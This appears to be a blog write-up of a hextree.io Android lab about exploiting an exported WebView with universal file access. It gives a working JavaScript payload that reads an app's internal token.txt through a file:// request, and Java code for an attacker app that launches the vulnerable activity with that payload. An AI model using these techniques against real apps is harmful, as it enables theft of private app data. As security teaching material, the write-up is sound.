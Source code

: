 ```yaml
---
layout: post
title: 'Exploiting WebView Vulnerabilities: Bypassing SOP to Access Internal App Files'
date: 2025-03-14 22:52 +0200
categories: Mobile
tags: Android Mobile
---
```

Have you ever imagined being able to steal internal files from an Android application, such as `.db` files or other sensitive data? In this article, I'll walk you through how it's done by solving a lab from [hextree.io](https://www.hextree.io/).

## Initial Analysis
First, I installed the target application on the Android Studio emulator and decompiled it using JADX to analyze its `AndroidManifest.xml` file. I quickly noticed a WebView activity that was marked as `exported="true"`
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*pHf6TNL8y3T6UM5yiNwczg.png)
To investigate further, I examined the activity’s **onCreate()** method.
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Hr0eRjV2F-IaaAPn-qb_gg.png)

## Breaking Down the onCreate() Method
1. The app retrieves an extra string value `URL` using `getIntent()`.
2. If the value is `null`, it defaults to loading `https://www.hextree.io`.
3. It then configures WebView settings with the following:
```java
settings.setJavaScriptEnabled(true);
settings.setAllowFileAccessFromFileURLs(true);
settings.setAllowFileAccess(true);
settings.setAllowUniversalAccessFromFileURLs(true);
```
These settings are highly dangerous, especially:
- `setAllowUniversalAccessFromFileURLs(true)`, which allows WebView to load files from multiple sources, including `https://`, `content://`, and `file://` … etc
- 
4. This could enable attackers to read local files through a malicious HTML page, or gain **RCE**.
The app generates a random UUID and writes it to a file named `token.txt`.
5. It registers a **JavaScript Interface** called `"hextree"`, mapping it to a `JsObject` class.
6. Finally, it loads the provided `URL`.
## Examining the JavaScript Interface
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*M9jY8xfe8SSjD_Ua7srZNA.png)
The `JsObject` class contains an `authCallback()` function that:
- Accepts a `token` as an argument.
- Reads the `token.txt` file and compares its value.
- If the token matches, it triggers the `success()` method (which is our target).
- Otherwise, it does nothing.
## Crafting the Exploit
Since the application allows universal file access and provides a JavaScript interface, we can exploit it by loading an external URL with a **malicious JavaScript payload**.
### 1. The JavaScript Payload
The following script will steal the token from `token.txt` and pass it to the `authCallback()` function:
```html
<script>
  onload = () => {
    let x = new XMLHttpRequest();
    x.onload = () => hextree.authCallback(x.responseText.trim());
    x.open("GET", "file:///data/data/io.hextree.attacksurface/files/token.txt");
    x.send();
  };
</script>
```
**Explanation:**
- The script is executed on page load (`onload` event).
- It makes an XHR request to retrieve the contents of `token.txt`.
- Once loaded, it trims the response and sends it to `authCallback()`, triggering the success condition.

Save this payload as exploit.html inside the app’s internal storage: `file:///data/data/io.hextree.attacksurface/files/exploit.html`

### 2. Deploying the Attack
To launch the exploit, we need to create an **attack app** that sends an intent to the vulnerable WebView activity, instructing it to load our malicious HTML file.<br>
**The Exploit App Code:**
```java
 @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.webviews.Flag40WebViewsActivity");
        String exploitUrl = "file:///data/data/io.hextree.attacksurface/files/exploit.html";
        intent.putExtra("URL", exploitUrl);
        startActivity(intent);

    }
```
**How It Works:**
1. The app **targets the vulnerable WebView activity** by specifying its package and class name.
2. It sets `exploitUrl` to the path of our malicious HTML payload.
3. It **passes** this URL as an extra string (`URL`) and launches the activity.

Once the exploit app is launched, the vulnerable WebView loads our payload, reads `token.txt`, and successfully triggers `authCallback()`, granting us access to the **flag**.
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*DbHLZoKjkEFS_dPG17vXbQ.png)

This demonstrates a serious **WebView vulnerability** in Android apps, showing how insecure settings can be exploited to steal internal files.

**THANKS FOR READING ❤️**
